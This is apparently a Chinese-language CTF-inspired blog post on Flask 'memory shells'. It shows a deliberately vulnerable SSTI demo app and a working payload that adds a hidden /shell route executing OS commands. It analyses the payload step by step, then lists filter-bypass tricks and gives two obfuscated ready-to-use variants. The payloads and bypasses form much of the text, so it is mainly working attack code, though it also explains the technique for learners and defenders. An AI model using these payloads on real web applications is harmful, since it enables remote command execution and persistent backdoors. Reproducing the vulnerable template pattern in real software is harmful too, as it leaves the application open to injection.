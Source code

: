 # Python 内存马
Author: H3rmesk1t

Data: 2022.02.09

## 前言
打安洵杯线下的时候有一道`Python`的`SSTI`模板注入的`AWD`题目, 由于之前没有怎么接触过关于`Python`的攻防点, 一度被别人种了`Python 内存马`都还没发现, 等比赛中断发现修补后的题目被打进来后, 查看流量记录才意识到攻击者前面是用的`Flask`内存马打的, 之前看过大概的思路却鸽了一直没学, 这里暂且记录一下相关知识点.

## 概念
常用的`Python`框架有`Django`、`Flask`, 这两者都可能存在`SSTI`漏洞. `Python 内存马`利用`Flask`框架中`SSTI`注入来实现, `Flask`框架中在`web`应用模板渲染的过程中用到`render_template_string`进行渲染, 但未对用户传输的代码进行过滤导致用户可以通过注入恶意代码来实现`Python`内存马的注入.

## Flask 请求上下文管理机制
当网页请求进入`Flask`时, 会实例化一个`Request Context`. 在`Python`中分出了两种上下文: 请求上下文(request context)、应用上下文(session context). 一个请求上下文中封装了请求的信息, 而上下文的结构是运用了一个`Stack`的栈结构, 也就是说它拥有一个栈所拥有的全部特性. `request context`实例化后会被`push`到栈`_request_ctx_stack`中, 基于此特性便可以通过获取栈顶元素的方法来获取当前的请求.

## 漏洞环境
先用`Flask`编写一个`SSTI-Demo`:

```python
from flask import Flask, request, render_template_string

app = Flask(__name__)


@app.route('/')
def hello_world():  # put application's code here
    person = 'knave'
    if request.args.get('name'):
        person = request.args.get('name')
    template = '<h1>Hi, %s.</h1>' % person
    return render_template_string(template)


if __name__ == '__main__':
    app.run()
```

原始`Flask`内存马`Payload`:

```python
url_for.__globals__['__builtins__']['eval']("app.add_url_rule('/shell', 'shell', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read())",{'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],'app':url_for.__globals__['current_app']})
```

命令执行结果:

![](./images/2.png)

![](./images/1.png)

## Payload 分析
将前面的`Payload`拆开来, 逐层分析.

```python
url_for.__globals__['__builtins__']['eval'](
    "app.add_url_rule(
        '/shell', 
        'shell', 
        lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read()
    )",
    {
        '_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],
        'app':url_for.__globals__['current_app']
    }
)
```

对于`url_for.__globals__['__builtins__']['eval']`这一截`Payload`, `url_for`是`Flask`的一个内置函数, 通过`Flask`内置函数可以调用其`__globals__`属性, 该特殊属性能够返回函数所在模块命名空间的所有变量, 其中包含了很多已经引入的`modules`, 可以看到这里是支持`__builtins__`的.

![](./images/3.png)

![](./images/4.png)

在`__builtins__`模块中, `Python`在启动时就直接为我们导入了很多内建函数. 准确的说, `Python`在启动时会首先加载内建名称空间, 内建名称空间中有许多名字到对象之间的映射, 这些名字就是内建函数的名称, 对象就是这些内建函数对象. 可以看到, 在`__builtins__`模块的内建函数中是存在`eval`、`exec`等命令执行函数的.

![](./images/5.png)

```python
['ArithmeticError', 'AssertionError', 'AttributeError', 'BaseException', 'BlockingIOError', 'BrokenPipeError', 'BufferError', 'BytesWarning', 'ChildProcessError', 'ConnectionAbortedError', 'ConnectionError', 'ConnectionRefusedError', 'ConnectionResetError', 'DeprecationWarning', 'EOFError', 'Ellipsis', 'EnvironmentError', 'Exception', 'False', 'FileExistsError', 'FileNotFoundError', 'FloatingPointError', 'FutureWarning', 'GeneratorExit', 'IOError', 'ImportError', 'ImportWarning', 'IndentationError', 'IndexError', 'InterruptedError', 'IsADirectoryError', 'KeyError', 'KeyboardInterrupt', 'LookupError', 'MemoryError', 'ModuleNotFoundError', 'NameError', 'None', 'NotADirectoryError', 'NotImplemented', 'NotImplementedError', 'OSError', 'OverflowError', 'PendingDeprecationWarning', 'PermissionError', 'ProcessLookupError', 'RecursionError', 'ReferenceError', 'ResourceWarning', 'RuntimeError', 'RuntimeWarning', 'StopAsyncIteration', 'StopIteration', 'SyntaxError', 'SyntaxWarning', 'SystemError', 'SystemExit', 'TabError', 'TimeoutError', 'True', 'TypeError', 'UnboundLocalError', 'UnicodeDecodeError', 'UnicodeEncodeError', 'UnicodeError', 'UnicodeTranslateError', 'UnicodeWarning', 'UserWarning', 'ValueError', 'Warning', 'ZeroDivisionError', '_', '__build_class__', '__debug__', '__doc__', '__import__', '__loader__', '__name__', '__package__', '__spec__', 'abs', 'all', 'any', 'ascii', 'bin', 'bool', 'breakpoint', 'bytearray', 'bytes', 'callable', 'chr', 'classmethod', 'compile', 'complex', 'copyright', 'credits', 'delattr', 'dict', 'dir', 'divmod', 'enumerate', 'eval', 'exec', 'exit', 'filter', 'float', 'format', 'frozenset', 'getattr', 'globals', 'hasattr', 'hash', 'help', 'hex', 'id', 'input', 'int', 'isinstance', 'issubclass', 'iter', 'len', 'license', 'list', 'locals', 'map', 'max', 'memoryview', 'min', 'next', 'object', 'oct', 'open', 'ord', 'pow', 'print', 'property', 'quit', 'range', 'repr', 'reversed', 'round', 'set', 'setattr', 'slice', 'sorted', 'staticmethod', 'str', 'sum', 'super', 'tuple', 'type', 'vars', 'zip']
```

由于存在命令执行函数, 因此我们就可以直接调用命令执行函数来执行危险操作, `Exploit`如下:

```python
{{url_for.__globals__['__builtins__']['eval']("__import__('os').system('open -a Calculator')")}}
```

![](./images/6.png)

接着再来看看`app.add_url_rule('/shell', 'shell', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read())`这一截`Payload`. 这部分是动态添加了一条路由, 而处理该路由的函数是个由`lambda`关键字定义的匿名函数.

在`Flask`中注册路由的时候是添加的`@app.route()`装饰器来实现的, 跟进查看其源码实现, 发现其调用了`add_url_rule`函数来添加路由.

![](./images/7.png)

跟进`add_url_rule`函数, 其参数说明如下:
 - rule: 函数对应的`URL`规则, 满足条件和`app.route`的第一个参数一样, 必须以`/`开头.
 - endpoint: 端点, 即在使用`url_for`进行反转的时候, 这里传入的第一个参数就是`endpoint`对应的值, 这个值也可以不指定, 默认就会使用函数的名字作为`endpoint`的值.
 - view_func: `URL`对应的函数, 这里只需写函数名字而不用加括号.
 - provide_automatic_options: 控制是否应自动添加选项方法.
 - options: 要转发到基础规则对象的选项.

![](./images/8.png)

`lambda`即匿名函数, `Payload`中`add_url_rule`函数的第三个参数定义了一个`lambda`匿名函数, 其中通过`os`库的`popen`函数执行从`Web`请求中获取的`cmd`参数值并返回结果, 其中该参数值默认为`whoami`.

再来看看`'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],'app':url_for.__globals__['current_app']}`这一截`Payload`. `_request_ctx_stack`是`Flask`的一个全局变量, 是一个`LocalStack`实例, 这里的`_request_ctx_stack`即上文中提到的`Flask 请求上下文管理机制`中的`_request_ctx_stack`. `app`也是`Flask`的一个全局变量, 这里即获取当前的`app`.

到此, 大致逻辑基本就梳理清晰了, `eval`函数的功能即动态创建一条路由, 并在后面指明了所需变量的全局命名空间, 保证`app`和`_request_ctx_stack`都可以被找到.

## ByPass
在实际应用中往往都存在过滤, 因此了解如何绕过还是必要的.
 - `url_for`可替换为`get_flashed_messages`或者`request.__init__`或者`request.application`.
 - 代码执行函数替换, 如`exec`等替换`eval`.
 - 字符串可采用拼接方式, 如`['__builtins__']['eval']`变为`['__bui'+'ltins__']['ev'+'al']`.
 - `__globals__`可用`__getattribute__('__globa'+'ls__')`替换.
 - `[]`可用`.__getitem__()`或`.pop()`替换.
 - 过滤`{{`或者`}}`, 可以使用`{%`或者`%}`绕过, `{%%}`中间可以执行`if`语句, 利用这一点可以进行类似盲注的操作或者外带代码执行结果.
 - 过滤`_`可以用编码绕过, 如`__class__`替换成`\x5f\x5fclass\x5f\x5f`, 还可以用`dir(0)[0][0]`或者`request['args']`或者`request['values']`绕过.
 - 过滤了`.`可以采用`attr()`或`[]`绕过.
 - 其它的手法参考`SSTI`绕过过滤的方法即可...

这里给出两个变形`Payload`:
 - 原`Payload`

```python
url_for.__globals__['__builtins__']['eval']("app.add_url_rule('/h3rmesk1t', 'h3rmesk1t', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('shell')).read())",{'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],'app':url_for.__globals__['current_app']})
```

 - 变形`Payload-1`

```python
request.application.__self__._get_data_for_json.__getattribute__('__globa'+'ls__').__getitem__('__bui'+'ltins__').__getitem__('ex'+'ec')("app.add_url_rule('/h3rmesk1t', 'h3rmesk1t', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('shell', 'calc')).read())",{'_request_ct'+'x_stack':get_flashed_messages.__getattribute__('__globa'+'ls__').pop('_request_'+'ctx_stack'),'app':get_flashed_messages.__getattribute__('__globa'+'ls__').pop('curre'+'nt_app')})
```

 - 变形`Payload-2`

```python
get_flashed_messages|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fgetitem\x5f\x5f")("__builtins__")|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fgetitem\x5f\x5f")("\u0065\u0076\u0061\u006c")("app.add_ur"+"l_rule('/h3rmesk1t', 'h3rmesk1t', la"+"mbda :__imp"+"ort__('o"+"s').po"+"pen(_request_c"+"tx_stack.to"+"p.re"+"quest.args.get('shell')).re"+"ad())",{'\u005f\u0072\u0065\u0071\u0075\u0065\u0073\u0074\u005f\u0063\u0074\u0078\u005f\u0073\u0074\u0061\u0063\u006b':get_flashed_messages|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fgetitem\x5f\x5f")("\u005f\u0072\u0065\u0071\u0075\u0065\u0073\u0074\u005f\u0063\u0074\u0078\u005f\u0073\u0074\u0061\u0063\u006b"),'app':get_flashed_messages|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fgetitem\x5f\x5f")("\u0063\u0075\u0072\u0072\u0065\u006e\u0074\u005f\u0061\u0070\u0070")})
```

![](./images/10.png)

## 参考
 - [浅析Python Flask内存马](https://www.mi1k7ea.com/2021/04/07/%E6%B5%85%E6%9E%90Python-Flask%E5%86%85%E5%AD%98%E9%A9%AC/)